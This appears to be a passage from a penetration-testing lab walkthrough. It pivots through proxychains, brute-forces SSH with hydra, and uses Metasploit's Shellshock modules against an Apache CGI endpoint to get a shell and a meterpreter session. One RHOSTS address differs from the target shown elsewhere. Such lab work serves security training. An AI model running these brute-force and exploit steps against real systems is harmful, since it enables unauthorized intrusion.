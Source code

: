```
Host is up (0.052s latency).
Not shown: 1 closed tcp port (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ←
Service Info: Host: demo2.ine.local

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 25.30 seconds
```

**Step 7**.

`proxychains hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.21.171.1 ssh -t 4`. [✗]

`proxychains hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.21.171.1 ssh -t 4`. [✗]

`proxychains curl 192.21.171.3`: [✓]
```
[*] exec: proxychains curl 192.21.171.3

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.21.171.3:80  ...  OK
<html>
<head>
<title>AttackDefense</title>
</head>
<body>
</br>
<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe> ←
</body>
</html>
```

`search apache cgi`, `use auxiliary/scanner/http/apache_mod_cgi_bash_env`, `show options`, `set RHOSTS 191.171.21.3`, `set TARGETURI /cgi-bin/stats`, `exploit`: [✓]
```
[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`search apache cgi`, `use exploit/multi/http/apache_mod_cgi_bash_env_exec`, `set PAYLOAD linux/x86/meterpreter/bind_tcp`, `show options`, `set RHOSTS 191.171.21.3`, `set TARGETURI /cgi-bin/stats`, `set LHOST 192.119.153.2`, `exploit`. [✓]

`sysinfo`:
```
Computer     : demo2.ine.local
OS           : Debian 7.11 (Linux 5.4.0-152-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
